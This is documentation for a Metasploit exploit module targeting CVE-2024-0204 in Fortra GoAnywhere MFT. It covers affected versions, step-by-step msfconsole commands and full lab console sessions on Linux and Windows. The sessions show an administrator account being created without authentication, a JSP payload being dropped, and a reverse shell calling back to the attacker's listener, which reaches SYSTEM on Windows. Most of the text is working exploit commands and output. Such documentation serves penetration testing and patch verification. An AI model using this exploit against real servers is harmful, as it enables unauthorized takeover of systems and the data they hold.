 ## Vulnerable Application
This module exploits a vulnerability in Fortra GoAnywhere MFT that allows an unauthenticated attacker to
create a new administrator account. This can be leveraged to upload a JSP payload and achieve RCE. GoAnywhere
MFT versions 6.x from 6.0.1, and 7.x before 7.4.1 are vulnerable.

## Testing
To test use Fortra GoAnywhere 7.4.0. You will need to register for a trial from the Fortra website in order to
receive a 30 day trial license. The portal where you receive a trial license will only let you download the most
recent version of the product, so you will also need to have access to an installer for an older, vulnerable version
of the product to install and test on.

## Verification Steps
The exploits default target 0 (Automatic), will detect the target systems OS, so you do not need to specify the target
OS (Linux or Windows).

1. Start msfconsole
2. `use exploit/multi/http/fortra_goanywhere_mft_rce_cve_2024_0204`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set PAYLOAD java/jsp_shell_reverse_tcp`
6. `check`
7. `exploit`

## Options

### GOANYWHERE_INSTALL_PATH
This is the file system path to the GoAnywhere MFT installation. If the target is set to `Automatic`, then this path
will be discovered automatically.

## Scenarios
The Automatic target will detect the GoAnywhere MFT servers OS and select the correct target, or you can explicitly
select a target platform (Linux or Windows).

### Automatic (Linux)

```
msf exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > show options

Module options (exploit/multi/http/fortra_goanywhere_mft_rce_cve_2024_0204):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.100.1.30      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-meta
                                         sploit.html
   RPORT      8001             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /goanywhere/     yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.1.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > check
[*] 10.100.1.30:8001 - The target appears to be vulnerable. GoAnywhere MFT 7.4.0
msf exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > exploit

[*] Started reverse TCP handler on 10.100.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. GoAnywhere MFT 7.4.0
[*] Created account: uchvkpgt:ZindpxggDdvtrxu3
[*] Automatic targeting, detected OS: Linux
[*] Automatic targeting, detected install path: /opt/HelpSystems/GoAnywhere
[*] Dropped payload: /opt/HelpSystems/GoAnywhere/adminroot/EIlMlYdQ.jsp
[+] Deleted /opt/HelpSystems/GoAnywhere/adminroot/EIlMlYdQ.jsp
[!] Tried to delete /opt/HelpSystems/GoAnywhere/userdata/documents/uchvkpgt/EIlMlYdQ.jsp, unknown result
[+] Deleted /opt/HelpSystems/GoAnywhere/userdata/documents/uchvkpgt/
[*] Command shell session 4 opened (10.100.1.10:4444 -> 10.100.1.30:49572) at 2024-01-29 17:49:08 +0000

id
uid=1002(gamft) gid=1002(gamft) groups=1002(gamft)
pwd
/opt/HelpSystems/GoAnywhere
uname -a
Linux ubuntu-test-vm 6.5.0-15-generic #15~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 12 18:54:30 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 10.100.1.30 - Command shell session 8 closed.
msf exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) >
```

### Automatic (Windows)

```
msf exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > show options

Module options (exploit/multi/http/fortra_goanywhere_mft_rce_cve_2024_0204):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.100.1.20      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-meta
                                         sploit.html
   RPORT      8001             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /goanywhere/     yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.1.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > check
[*] 10.100.1.20:8001 - The target appears to be vulnerable. GoAnywhere MFT 7.4.0
msf exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > exploit

[*] Started reverse TCP handler on 10.100.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. GoAnywhere MFT 7.4.0
[*] Created account: ckgbeqlo:ib0Qk3cMDvnaipTP
[*] Automatic targeting, detected OS: Windows
[*] Automatic targeting, detected install path: C:\Program Files\Fortra\GoAnywhere
[*] Dropped payload: C:\Program Files\Fortra\GoAnywhere\adminroot\b9OvIFdK.jsp
[!] Tried to delete C:\Program Files\Fortra\GoAnywhere\adminroot\b9OvIFdK.jsp, unknown result
[!] Tried to delete C:\Program Files\Fortra\GoAnywhere\userdata\documents\ckgbeqlo\b9OvIFdK.jsp, unknown result
[*] Command shell session 9 opened (10.100.1.10:4444 -> 10.100.1.20:57059) at 2024-01-29 16:31:01 +0000
[!] This exploit may require manual cleanup of 'C:\Program Files\Fortra\GoAnywhere\userdata\documents\ckgbeqlo\' on the target


Shell Banner:
Microsoft Windows [Version 10.0.20348.1607]
(c) Microsoft Corporation. All rights reserved.
-----
          

C:\Program Files\Fortra\GoAnywhere>whoami
whoami
nt authority\system

C:\Program Files\Fortra\GoAnywhere>exit
exit
[*] 10.100.1.20 - Command shell session 9 closed.
msf exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > 
```
